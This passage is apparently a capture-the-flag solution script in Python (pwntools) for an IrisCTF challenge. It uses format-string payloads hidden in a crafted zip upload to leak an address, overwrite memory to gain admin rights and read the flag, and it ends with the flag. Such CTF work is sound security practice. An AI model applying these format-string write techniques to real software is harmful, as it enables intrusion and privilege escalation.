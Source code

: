 ```py
conn.sendlineafter(b"?", INVITE_CODE.encode())
conn.sendlineafter(b"?", b"me")
conn.sendlineafter(b"?", b"me")

# upload a file
# 14 is format string input
# 10 is Zipinfo, what returned
# 8 is &fileUsers
format_str = b'%8$p              '
conn.sendlineafter(b">", b"4")
conn.sendlineafter(b"?", b"0")
conn.sendlineafter(b"one uncompressed file", fake_zip_any(len(format_str), 0, format_str).hex().encode())

# view file
conn.sendlineafter(b">", b"5")
conn.sendlineafter(b"?", b"0")
conn.sendlineafter(b"?", b"me")
conn.sendlineafter(b"?", b"0")

while not (fileuser_addr := conn.recvline(keepends=False)):
    pass
fileuser_addr = int(fileuser_addr.decode(), 16)

print(f"{fileuser_addr = :x}")

# upload file to change admin
format_str = b'%12c%16$hhn'.ljust(0x10, b'A') + p64(fileuser_addr + 0x10)
conn.sendlineafter(b">", b"4")
conn.sendlineafter(b"?", b"0")
conn.sendlineafter(b"one uncompressed file", fake_zip_any(len(format_str), 0, format_str).hex().encode())

# view again
conn.sendlineafter(b">", b"5")
conn.sendlineafter(b"?", b"0")
conn.sendlineafter(b"?", b"me")
conn.sendlineafter(b"?", b"1")

# read flag
conn.sendlineafter(b">", b"6")
conn.sendlineafter(b"?", b"0")
conn.sendlineafter(b"?", b"me")


conn.interactive()
# irisctf{tom_needs_to_rethink_his_security}
```

---
